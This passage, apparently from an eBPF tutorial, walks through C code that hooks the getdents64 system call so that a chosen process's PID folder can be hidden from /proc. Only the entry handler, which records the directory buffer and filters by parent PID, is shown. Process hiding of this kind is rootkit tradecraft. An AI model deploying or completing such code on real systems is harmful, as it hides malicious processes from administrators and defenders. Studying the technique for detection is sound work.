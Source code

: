 In the next part of the code, the program defines a structure called "linux_dirent64", which represents a Linux directory entry. The program then defines two functions, "handle_getdents_enter" and "handle_getdents_exit", which are called at the entry and exit of the getdents64 system call, respectively, and are used to implement operations on the directory entry.

```c

// Optional Target Parent PID
const volatile int target_ppid = 0;

// These store the string representation
// of the PID to hide. This becomes the name
// of the folder in /proc/
const volatile int pid_to_hide_len = 0;
const volatile char pid_to_hide[MAX_PID_LEN];

// struct linux_dirent64 {
//     u64        d_ino;    /* 64-bit inode number */
//     u64        d_off;    /* 64-bit offset to next structure */
//     unsigned short d_reclen; /* Size of this dirent */
//     unsigned char  d_type;   /* File type */
//     char           d_name[]; /* Filename (null-terminated) */ }; 
// int getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count);
SEC("tp/syscalls/sys_enter_getdents64")
int handle_getdents_enter(struct trace_event_raw_sys_enter *ctx)
{
    size_t pid_tgid = bpf_get_current_pid_tgid();
    // Check if we're a process thread of interest
    // if target_ppid is 0 then we target all pids
    if (target_ppid != 0) {
        struct task_struct *task = (struct task_struct *)bpf_get_current_task();
        int ppid = BPF_CORE_READ(task, real_parent, tgid);
        if (ppid != target_ppid) {
            return 0;
        }
    }
    int pid = pid_tgid >> 32;
    unsigned int fd = ctx->args[0];
    unsigned int buff_count = ctx->args[2];

    // Store params in map for exit function
    struct linux_dirent64 *dirp = (struct linux_dirent64 *)ctx->args[1];
    bpf_map_update_elem(&map_buffs, &pid_tgid, &dirp, BPF_ANY);

    return 0;
}
```

In this section of the code, we can see part of the implementation of the eBPF program that is responsible for the processing at the entry point of the `getdents64` system call.

We start by declaring a few global variables. The `target_ppid` represents the PID of the target parent we want to focus on, and if this value is 0, then we will focus on all processes. `pid_to_hide_len` and `pid_to_hide` are used to store the length of the PID of the process we want to hide from, and the PID itself, respectively. This PID is translated into the name of a folder in the `/proc/` directory, so the hidden process will not be visible in the `/proc/` directory.
